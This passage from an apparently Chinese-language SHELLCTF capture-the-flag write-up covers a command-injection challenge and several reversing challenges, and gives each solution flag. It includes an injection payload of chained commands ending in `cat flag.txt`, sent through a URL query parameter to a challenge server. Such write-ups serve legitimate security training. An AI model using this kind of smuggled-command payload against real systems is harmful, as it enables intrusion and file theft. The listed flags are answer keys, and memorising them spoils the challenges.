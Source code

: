 可以看到其中有一個檔案大小為 38，與其它不同，推測我們要的 flag 在這裡

payload: `ccdd ....; ccdd flag-------------; ccdd flag; ccdd flag; ccdd flag; ccdd flag; cat flag.txt`
http://20.125.142.38:8499/wH4t_Y0u_d1d?Th1nK_Tw1c3=ccdd+....%3B+ccdd+flag-------------%3B+ccdd+flag%3B+ccdd+flag%3B+ccdd+flag%3B+ccdd+flag%3B+cat+flag.txt
![](https://i.imgur.com/38wOsbn.png)

根據題目敘述，完整的 flag 如下:

shellctf{H0p3_4ny0N3_No7_n071c3_SiZe_D1fF3reNc3_du_apparent-size_ah}

## Reversing
### Keygen
打開程式先看 main

![](https://i.imgur.com/ctlshCA.png)
發現前面會先做一些檢查後，印出 `Access Granted!` 和 `getString` 出來的東西，看一下 `getString` 是什麼

![](https://i.imgur.com/6UBkGl4.png)
發現是一些奇怪的 hex 組成的字，嘗試解譯這些 hex

![](https://i.imgur.com/OvLHU33.png)
發現其實就是 flag 了

SHELLCTF{k3ygen_1s_c0oL}

### How to defeat a dragon
1. Reverse發現所求code為69420
![](https://i.imgur.com/sbTrbon.png)

2. 得到
![](https://i.imgur.com/qHYFUWj.png)
SHELLCTF{5348454c4c4354467b31355f523376337235316e675f333473793f7d}
3. 假flag值為hex，轉ascii
![](https://i.imgur.com/NBdps9X.png)
SHELLCTF{15_R3v3r51ng_34sy?}

### Pulling the strings
有點偷懶ㄟ
![](https://i.imgur.com/Lon04Hi.png)
SHELLCTF{Th4nks_f0r_the_food}

### Warmup
1. flag以此一形式儲存
![](https://i.imgur.com/zCYcUFE.png)
2. 程式檢查時，將各值右移兩位後與輸入值比對，故可將各值/4之後轉換為ascii
![](https://i.imgur.com/LGISvrF.png)
3. 應該可以寫程式解，但想說好麻煩就直接手幹，對表對到眼睛脫窗
![](https://i.imgur.com/irOFjwW.png)
shellctf{b1tWi5e_0p3rAt0rS}

